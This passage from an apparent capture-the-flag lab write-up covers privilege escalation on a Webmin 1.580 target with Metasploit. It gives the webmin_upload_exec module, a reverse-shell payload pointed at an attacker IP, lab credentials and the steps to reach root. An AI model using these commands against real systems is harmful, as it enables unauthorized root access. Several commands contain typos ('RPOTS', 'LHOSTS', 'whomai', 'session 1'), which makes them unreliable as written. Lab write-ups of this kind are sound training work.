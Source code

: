 <img width="843" alt="18" src="https://user-images.githubusercontent.com/28839345/164976565-e2673bd3-a140-4d70-9a1e-7a4f9fb70606.png">

#### [Task 6] Priviledge Escalation with Metasploit

**Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.**

First open metapsloit by running the command `msfconsole`.

Then search for webmin exploits with version 1.580 by running the command 
`search webmin 1.580`.

<img width="1412" alt="19" src="https://user-images.githubusercontent.com/28839345/164976572-5a82efcb-2b40-41d4-bdb2-84cc0f0597b3.png">

The exploit you can use is the 'exploit/unix/webapp/webmin_upload_exec'.

`set RHOSTS localhost`

`set RPOTS 10000`

`set LHOSTS 10.10.173.37`

`set SSL false`

`set PAYLOAD cmd/unix/reverse`

`set USERNAME agen47`

`set PASSWORD videogamer124`

Finally run `exploit` and a session will be created in the background.

<img width="715" alt="20" src="https://user-images.githubusercontent.com/28839345/164976579-af6b5cd1-43e2-42dd-a425-37940944e52c.png">

Check the list of running sessions with the command `sessions -l`.

<img width="866" alt="21" src="https://user-images.githubusercontent.com/28839345/164976582-56286391-6b15-4b9e-a4dd-7d345c8282cc.png">

Pick the session you just created by running the command `session <session_number>`
In my case is `session 1`

<img width="563" alt="22" src="https://user-images.githubusercontent.com/28839345/164976584-43510d8d-ae8d-48f1-9766-deeb3832e91e.png">

Run the command `whomai` and check if you are 'root'.

<img width="136" alt="23" src="https://user-images.githubusercontent.com/28839345/164976585-367574fa-8cda-4651-b4c3-ac59a319858d.png">

Finally go to the '/root' directory and print the content of 'the root.txt' file by running the command `cat root.txt`

<img width="403" alt="24" src="https://user-images.githubusercontent.com/28839345/164976586-5c3ebbb0-b75a-481d-8f4e-227238469093.png">









